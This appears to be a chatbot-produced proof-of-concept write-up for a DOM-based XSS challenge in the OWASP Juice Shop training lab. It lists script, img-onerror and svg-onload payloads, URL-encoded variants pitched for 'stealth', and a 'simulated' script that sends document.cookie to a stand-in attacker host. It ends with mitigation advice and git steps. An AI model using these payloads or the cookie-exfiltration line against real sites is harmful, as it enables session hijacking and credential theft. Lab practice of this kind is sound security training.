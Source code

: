 real-world offensive security researcher’s PoC, while keeping that cool, hacker-lab tone you want.

markdown
Copy
Edit
# 🧠 DOM-Based XSS via URL Parameter Injection (Method-2)
_Exploit Type: Client-Side DOM-Based Cross-Site Scripting (Reflected via URL fragment)_

---

## 🔍 Recon Phase: Entry Point Discovery

**Target Application:**  
OWASP Juice Shop running on:
http://localhost:3000/

mathematica
Copy
Edit

**Suspicion Vector:**  
Query parameter in URL fragment:
http://localhost:3000/#/search?q=test

markdown
Copy
Edit

**Action:**  
1. Open Developer Tools → `Elements` tab  
2. Search for the value `"test"`  
3. Observe DOM sinks where user input is reflected

**Identified Sinks:**  
- `innerHTML`
- `document.write()`
- `jQuery.html()`

💡 *All dangerous if used with untrusted user input and no sanitization.*

---

## 💣 Exploitation Phase: Payload Deployment

### Goal:  
Trigger arbitrary JavaScript execution via malicious payload passed into the `q` parameter.

### Step 1: Craft Payloads

> Targeting reflection context, escaping HTML or attribute boundaries, and executing JS using event handlers or inline scripts.

```bash
http://localhost:3000/#/search?q=<script>alert(1)</script>
http://localhost:3000/#/search?q="><img src=x onerror=alert(1)>
http://localhost:3000/#/search?q="><svg/onload=alert(1)>
Step 2: Encoding (Optional for stealth/persistence)
bash
Copy
Edit
http://localhost:3000/#/search?q=%3Cscript%3Ealert(1)%3C/script%3E
http://localhost:3000/#/search?q=%22%3E%3Csvg/onload%3Dalert(1)%3E
Exploitation Techniques:
DOM sink abuse (no backend filter involvement)

HTML attribute breakout

Event handler injection (onerror, onload)

JavaScript execution in browser context

✅ Expected Behavior
Browser Pop-up: alert(1) executes immediately on page load.

DOM Reflects Payload: View source or Elements tab to verify unsanitized injection.

Challenge Banner Triggered: “You successfully solved the Bonus Payload challenge.”

🧪 Optional Verification (Advanced)
Monitor JavaScript Execution:
javascript
Copy
Edit
console.log(document.querySelector('body').innerHTML);
Cookie/Session Harvest (Simulated):
html
Copy
Edit
<script>fetch('http://attacker.tld/log?cookie=' + document.cookie)</script>
⚠️ Use in isolated lab environments only. This simulates real-world XSS abuse but must not be used against live or unauthorized targets.

📸 Evidence Collection
Screenshot Instructions:
Ensure alert(1) is still active or visible in the browser

Navigate to:

bash
Copy
Edit
http://localhost:3000/#/score-board
Verify challenge marked as ✅ solved

Take screenshot using:

Shift + PrtSc (Linux/Windows)

Cmd + Shift + 4 (Mac)

Save as:
bash
Copy
Edit
DOM-XSS-URL-Param-Payload.png
🔐 Risk Analysis (For Report)
Vector	Impact	CVSS Base Score
DOM XSS	Full JS Execution	6.1 – 7.4 (Medium to High)

Impact Scope: Session Hijacking, Credential Theft, Defacement, Browser Exploitation

Mitigation: Use input sanitization libraries (DOMPurify), avoid dangerous sinks, apply CSP headers

📁 Folder Structure
mathematica
Copy
Edit
OWASP-Juice-Shop-Bonus-Payload/
└── Method-2-URL-Param-Injection/
    ├── Read-Me-URL-Parameter.md
    ├── To-Do-URL-Parameter.md
    ├── payload.txt
    ├── DOM-XSS-URL-Param-Payload.png
🧾 GitOps: Version Control the Exploit
bash
Copy
Edit
cd ~/juice-shop/OWASP-Juice-Shop-Bonus-Payload/Method-2-URL-Param-Injection

# Stage all exploit artifacts
git add .

# Commit with context
git commit -m "🚀 DOM-Based XSS via URL Parameter Injection – payloads, PoC, and evidence added"

# Push to GitHub
git push origin main
🎯 Final Outcome
 Entry point discovered via reflected param

 DOM sink exploited with malicious payload

 JavaScript executed in browser

 Screenshot proof captured

 Challenge marked as solved

 Git repo updated with artifacts

💡 Hack smarter. Document harder. Automate later.
